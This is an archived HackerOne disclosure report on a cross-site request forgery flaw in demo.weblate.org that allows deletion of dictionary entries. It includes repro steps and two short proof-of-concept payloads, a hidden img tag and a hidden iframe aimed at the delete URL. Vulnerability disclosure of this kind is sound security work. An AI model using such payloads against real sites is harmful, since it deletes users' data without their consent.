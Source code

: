 # CSRF bypass ( Delate Source Translation From dictionaries ) in demo.weblate.org

## Report Details
- **Report ID**: 230863
- **URL**: https://hackerone.com/reports/230863
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-05-22T18:58:20.622Z
- **Disclosed**: 2017-06-02T12:15:23.964Z

## Reporter
- **Username**: sup3r-b0y
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
Hello

I've Found CSRF in  https://demo.weblate.org
Sending a POST request  dictionaries  will delate successfully

steps to reproduce:

1.  go https://demo.weblate.org/ and login into your account
2.  now go https://demo.weblate.org/dictionaries/hello/sl/ 
3. add  new word, now delate it by CSRF

i made two exploit for attack

POC:

<img src="https://demo.weblate.org/delete-dictionaries/hello/sl/5545/" width=0 height=0>


POC:

<!DOCTYPE html>
<html>
<body>
<iframe src="https://demo.weblate.org/delete-dictionaries/hello/sl/5545/" style="display:none;">
</iframe>
</body>
</html>

Just replace the delate id,  and try to delate

if you need more info please let me know!

be safe 

Thanks

## Attachments
- Screenshot_489.png
- Screenshot_490.png
